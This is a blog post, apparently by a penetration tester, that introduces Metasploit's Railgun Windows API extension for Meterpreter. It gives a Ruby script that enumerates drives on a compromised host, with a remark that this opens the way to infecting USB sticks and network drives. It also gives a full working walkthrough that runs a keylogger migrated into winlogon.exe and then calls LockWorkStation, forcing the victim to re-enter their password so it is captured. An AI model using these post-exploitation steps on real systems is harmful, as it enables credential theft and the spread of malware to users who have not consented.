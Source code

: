 = 'Intro to RailGun: WIN API for Meterpreter'
:hp-tags: metasploit, meterpreter, railgun

Back on June 13th, "Patrick HVE" released RAILGUN:

[http://mail.metasploit.com/pipermail/framework/2010-June/006382.html](http://mail.metasploit.com/pipermail/framework/2010-June/006382.html)

And it was merged into the the Metasploit trunk with 9709, 9710, 9711 and 9712:
[http://www.metasploit.com/redmine/projects/framework/repository/revisions/9712](http://www.metasploit.com/redmine/projects/framework/repository/revisions/9712)

Basically what this allows you to do is make Windows API calls from Meterpreter without compiling your own DLL. It currently supports a number of Windows API dlls:

  * iphlpapi
  * ws2_32
  * kernel32
  * ntdll
  * user32
  * advapi32

(You can find out exactly what functions are available by default in the api.rb file)

It's also very extensible, it doesn't have a DLL or function you need? But you can read all about in the manual:

`./external/source/meterpreter/source/extensions/railgun/railgun_manual.pdf`

Here are two examples where this comes in very handy:

## List Drives:

The problem that I've had on a number of pentests is that you get shell, but from CMD or Meterpreter there is no good way to find all of the volumes (drives) attached.

  * net use - Shows you what Network drives are connected, but not physical ones
  * fsutil fsinfo drives - You must be an administrator to ride this train
  * fdisk /status - Only on OLD versions of DOS, not sure when this disappeared

But railgun solves this problem with a really short script:

```ruby
# Load the Railgun plugin  **_Update: You no longer need this step_**  
# client.core.use("railgun")   
# Make the API call to enum drive letters   
a = client.railgun.kernel32.GetLogicalDrives()["return"]         
# Math magic to convert the binary to letters        
drives = []         
letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"         
(0..25).each do |i|        
	test = letters[i,1]        
	rem = a % (2**(i+1))        
	if rem > 0        
		drives << test        
		a = a - rem        
	end        
end         
print_line("Drives Available = #{drives.inspect}")
```

**Output**: `Drives Available = ["A", "C", "D", "P", "X"]`

Save this as a meterpreter script and it'll print every logical drive attached to the system even as a limited user (that the user can see).

Logical drives include: (hdd, network, mass storage, optical, etc). This opens up the doors to infecting USB sticks and network drives…

## JEDI KEYLOGGING:

One of the problems with keylogging is you never know when that person will log in, and if you're using a client side, they have probably already logged in and you're hoping they log into a portal or some other password protected site.

Railgun to the rescue again:

```ruby
# Start the keylogger running in the background dumping keys every 15 seconds, attached to Winlogon**   

meterpreter > bgrun keylogrecorder -c 1 -t 15        
[*] Executed Meterpreter with Job ID 0        
meterpreter > [*] winlogon.exe Process found, migrating into 640        
[*] Migration Successful!!        
[*] Starting the keystroke sniffer...        
[*] Keystrokes being saved in to /root/.msf3/logs/scripts/keylogrecorder/192.168.92.122_20100707.4539.txt        
[*] Recording         
  
# Drop to IRB to initialize railgun and lockout the workstation, forcing the user to use their credentials again.**

meterpreter > irb       
[*] Starting IRB shell        
[*] The 'client' variable holds the meterpreter client

client.core.use("railgun")       
=> true        
client.railgun.user32.LockWorkStation()        
=> {"GetLastError"=>0, "return"=>true}        
exit        
meterpreter >
```

Set up "tail -f" going on the log file for the keylogger and then kill the keylogger when you've gotten what you came for.

```
meterpreter > bglist       
[*] Job 0: ["keylogrecorder", "-c", "1", "-t", "15"]        
meterpreter > bgkill 0        
[*] Killing background job 0...        
meterpreter >
```

Hope you have fun with railgun and shoot me an email [mubix@hak5.org](mailto:mubix@hak5.org) or leave a comment if you have any other crazy uses for railgun.
